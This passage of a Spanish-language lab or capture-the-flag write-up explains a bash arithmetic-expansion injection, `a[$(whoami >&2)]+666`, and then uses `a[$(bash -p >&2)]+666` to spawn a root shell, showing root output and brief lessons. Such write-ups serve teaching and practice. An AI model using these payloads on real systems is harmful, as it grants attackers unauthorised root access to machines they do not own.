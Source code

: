 Ahora podemos explotarlo de la siguiete manera:
```bash
a[$(whoami >&2)]+666
```

1. **Estructura base:**
    - Parece una expresión matemática (ej. `array[index] + valor`)
    - `a[]`: Se interpreta como un _array_ en algunos lenguajes
    - `+666`: Suma numérica
2. **Inyección de comando:**
    - `$(whoami >&2)`: Esto es lo crítico
        - `$( )`: Ejecuta un comando en un _subshell_ y sustituye su salida
        - `whoami`: Comando que devuelve el usuario actual
        - `>&2`: Redirige la salida al _error estándar_ (stderr)

Ahora nos aprovechamos de esto para lanzar una bash como **root**
```bash
# Comando para escalar al usuario: ( root )
a[$(bash -p >&2)]+666
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@8baec253c6e8:~# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a ejecutar comandos desde una web
2. Aprendimos a obtener la llave **id_rsa** para ganar acceso por ssh

## Recomendaciones de Seguridad
- No confiar en el input del usuario.